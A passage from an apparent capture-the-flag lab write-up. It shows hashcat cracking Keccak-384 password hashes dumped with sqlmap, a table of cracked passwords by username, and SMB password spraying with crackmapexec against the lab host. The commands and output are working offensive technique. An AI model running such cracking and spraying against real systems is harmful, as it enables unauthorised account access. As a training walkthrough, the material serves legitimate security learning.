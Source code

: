 ```
[18:52:50] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.179' 

```

Now I’ve got usernames and password hashes.

### Crack Hashes

The `sqlmap` automated cracker didn’t break any of the hashes, but it uses a limited wordlist. Given the length of the hash, it looks like SHA-384. When I ran `hashcat` with `-m 10800` for SHA-384 with `rockyou.txt`, nothing broke. There’s two other formats on the [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) page - SHA3-384 (`-m 17500`) and Keccak-384 (`-m 17900`). When I ran with the latter, I got results:

```

root@kali# hashcat -m 17900 hashes /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...
...[snip]...
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
Approaching final keyspace - workload adjusted.  
...[snip]...

```

While there’s a bunch of users in the database, there were only four unique passwords, and three broke with `rockyou.txt`:

| Password | Users |
| --- | --- |
| password1 | sbauer, shayna, james, cyork, jorden, aldom |
| finance1 | ckane, kpage, zac, ilee, zpowers |
| banking1 | okent, rmartin, alyx, nbourne |
| ? | minatotw, egre55 |

### Test Creds

I used `crackmapexec` to see if I could use any of these creds over SMB, but they all failed:

```

root@kali# crackmapexec smb 10.10.10.179 -u users -p passwords
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\okent:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\okent:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\okent:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\ckane:password1 STATUS_LOGON_FAILURE 
```